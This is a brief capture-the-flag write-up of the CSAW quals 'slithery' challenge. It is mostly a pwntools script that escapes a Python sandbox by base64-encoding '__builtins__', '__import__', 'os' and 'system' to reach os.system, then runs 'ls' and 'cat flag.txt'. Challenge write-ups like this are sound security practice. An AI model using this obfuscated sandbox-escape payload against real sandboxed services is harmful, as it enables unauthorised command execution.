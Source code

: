 ## CSAW quals: slithery [pwn]
#### I was not the one who solved this for the team during the competition, but I still tried to solve it on my own anyways. My first python sandbox escape uwu, took advantage of the base64decode primitive to import the os module and have access to the system function using getattr(). Exploit script now, full writeup later.
```python
#: CSAW quals: slithery

from pwn import *
import base64

#: connect to challenge server
p = remote('pwn.chal.csaw.io', 5011)
print(p.recv())

payload = '''
snake_sss = HrjYMvtxwA.__globals__[HrjYMvtxwA("X19idWlsdGluc19f").decode('utf-8')][HrjYMvtxwA("X19pbXBvcnRfXw==").decode('utf-8')](HrjYMvtxwA("b3M=").decode('utf-8'))
print(snake_sss)
snake_cmd = getattr(snake_sss, HrjYMvtxwA("c3lzdGVt").decode('utf-8'))
snake_cmd("ls")
snake_cmd("cat flag.txt")
'''

#print(base64.b64encode("__builtins__"))
p.sendline(payload)
print(p.recvline())
print(p.recv())
```
